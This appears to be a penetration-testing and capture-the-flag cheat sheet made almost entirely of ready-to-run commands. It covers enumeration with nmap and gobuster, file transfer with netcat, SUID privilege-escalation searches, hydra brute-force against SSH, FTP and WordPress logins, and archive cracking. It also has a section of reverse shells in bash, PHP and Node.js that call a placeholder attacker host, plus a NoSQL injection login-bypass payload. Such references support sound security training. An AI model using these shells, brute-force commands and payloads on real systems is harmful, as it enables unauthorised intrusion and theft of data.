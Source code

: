 # Network and Web Enumeration

## Port Scanning and Service Detection

```bash
nmap -sV -p- <TARGET_IP>
```

## Directory and File Discovery

```bash
gobuster dir -u http://<TARGET_IP> -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,txt,php,js
```

```bash
gobuster dir -u https://<TARGET_IP> -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -k
```

## SMB and NetBIOS Enumeration

```bash
enum4linux <TARGET_IP>
```

# File Transfer Methods

## HTTP Server Setup

```bash
python -m SimpleHTTPServer
```

```bash
wget http://<ATTACKER_IP>:8000/<FILE_NAME>
```

## Netcat File Transfer

```bash
nc -lvnp 5555 > <FILE_NAME>
```

```bash
nc <ATTACKER_IP> 5555 < <FILE_NAME>
```

## Secure File Transfer

```bash
scp <USER_NAME>@<TARGET_IP>:<FILE_NAME> .
```

# Linux Privilege Escalation and System Commands

## Privilege and Permission Analysis

```bash
sudo -l
```

```bash
find / -perm -u=s -type f 2>/dev/null
```

```bash
find / -user <USER_NAME> -type f 2>/dev/null
```

## Shell Upgrade and Stabilization

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

# Steganography and Image Analysis

## Metadata Extraction

```BASH
exiftool <IMAGE_NAME>.jpg
```

## Hidden Data Extraction

```bash
steghide extract -sf <IMAGE_NAME>.jpg
```

```bash
binwalk -e <IMAGE_NAME>.png
```

## Binwalk Compatibility Fix

```Bash
sed -i 's/CS_ARCH_ARM64/CS_ARCH_AARCH64/g' /usr/lib/python3/dist-packages/binwalk/modules/disasm.py
```

# Password Generation and Cracking

## Custom Wordlist Generation

```bash
crunch 18 18 -t '@@@@' > file.txt
```

## Network Service Brute Force Attacks

```bash
hydra -l <LOGIN> -P /root/Tools/wordlists/rockyou.txt ssh://<ATTACKER_IP>
```

```bash
hydra -l <LOGIN> -P /root/Tools/wordlists/rockyou.txt ftp://<ATTACKER_IP>
```

```bash
hydra -l <LOGIN> -P /root/Tools/wordlists/rockyou.txt <ATTACKER_IP> http-get -s 8080 /
```

```bash
hydra -l <LOGIN> -P /root/Tools/wordlists/rockyou.txt <ATTACKER_IP> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username"
```

## Archive Password Cracking

```bash
zip2john <FILE_NAME>.zip > hash.txt
john hash.txt
```

# File Transfer Protocol (FTP) Operations

## Basic FTP Commands

```bash
ftp <TARGET_IP>
anonymous
ls -la
get <FILE_NAME>
mget *
put <FILE_NAME>
```

# Server Message Block (SMB) Enumeration

## SMB Share Discovery

```bash
smbclient -L //<TARGET_IP> -N
```

```bash
smbclient -L //<TARGET_IP> -U <USER_NAME>
```

# Reverse Shell Techniques

## Netcat Listener Setup

```bash
nc -lvnp 4444
```

## Bash Reverse Shells

```bash
echo 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1' > script.sh
```

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER_IP> 4444 > /tmp/f" > script.sh
```

## PHP Reverse Shells

```php
<?php
$ip = '0.0.0.0';
$port = 4444;

$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh -i', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>
```

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1'");
?>
```

## Node.js Reverse Shell

```js
require("child_process").exec(
  "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER_IP> 4444 >/tmp/f"
);
```

# Metasploit Framework Usage

## Metasploit Commands

```bash
msfconsole
show options
set
run
```

# MongoDB

## Database Navigation Commands

```bash
mongo
show dbs
use
```

## NoSQL Injection Payloads

```
{"username":"test","password":{"$ne":""}}
```

# Online Tools and Resources

- [CyberChef](https://gchq.github.io/CyberChef/)
- [dCode](https://www.dcode.fr/en)
- [GTFOBins](https://gtfobins.github.io/)
- [Exploit Database](https://www.exploit-db.com/)
